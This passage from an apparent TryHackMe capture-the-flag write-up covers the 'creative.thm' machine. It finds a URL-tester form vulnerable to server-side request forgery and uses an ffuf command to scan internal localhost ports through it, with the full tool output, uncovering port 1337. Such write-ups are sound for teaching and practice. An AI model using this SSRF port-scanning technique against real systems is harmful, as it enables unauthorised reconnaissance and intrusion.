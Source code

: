 We found the subdomain `beta`, let's add `beta.creative.thm` to `/etc/hosts` and go check it.

![beta](2.png)

This is a url tester. I gave it `https://127.0.0.1/` and got this.

![backhome](3.png)

It's the `creative.thm` we visited earlier, This means this form is vulnerable to `SSRF`(Server Side Request Forgery).

#### SSRF

One thing we can try here is to look for open ports. We can do that by requesting `http://127.0.0.1:{portnumber}/`

It's going to take a lot of time if we do it manually so we'll use `ffuf` for this.

First I'll generate a list of all the ports using the following command:

```bash
for i in {0..65353}; echo $i >> ports.lst; done
```

Now we use the following ffuf command to do the fuzzing for us.

```terminal
$ ffuf -c -w ./ports.lst -u http://beta.creative.thm/ -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data "url=http://127.0.0.1:FUZZ" -fs 13

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: /home/sirius/CTF/THM/creative/ports.lst
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 13
________________________________________________

0                       [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 284ms]
80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 242ms]
1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 213ms]
```
